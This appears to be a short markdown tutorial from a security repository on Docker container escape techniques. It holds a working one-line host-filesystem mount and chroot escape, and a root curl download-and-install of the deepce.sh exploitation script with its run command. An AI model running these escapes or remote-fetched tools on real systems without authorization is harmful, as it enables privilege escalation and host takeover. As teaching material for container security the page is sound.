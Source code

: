 # Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging unsecure mount](#leveraging-unsecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)

## Docker

### Leveraging unsecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![Unsecure mount](img/00-unsecure-mount.png)

### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```

![Deepce](img/01-deepce-execution.png)

Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-unsecure-mount](#leveraging-unsecure-mount).

